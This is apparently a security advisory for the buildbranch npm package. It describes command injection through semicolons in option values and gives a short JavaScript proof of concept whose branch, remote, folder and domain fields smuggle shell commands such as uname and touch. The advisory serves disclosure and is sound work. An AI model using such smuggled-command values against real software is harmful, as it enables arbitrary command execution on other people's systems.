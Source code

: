 # Overview

buildbranch is a package to publish a folder to the given build branch (like gh-pages). 
Affected versions of this package are vulnerable to Command Injection. It is possible to inject arbitrary commands by using a semicolon char in any of the key values, using ` options.branch` in `buildBranch`.
Since the packages clears the `package.json` and the `poc.js`, touch the file somewhere other than current 

# Proof of Concept

```js
var buildBranch = require('buildbranch');
buildBranch(
    {
    branch: "; uname > ../HACKED; #//",
    remote: "; touch REMOTE; #//",
    ignore: ['.git', 'www', 'node_modules'],
    folder: "; touch FOLDER; #//",
    domain: "; touch DOMAIN; #//",
    noVerify: false
  }, function(err) {
    if(err) {
      throw err;
    }
    console.log('done!');
  }
);
```
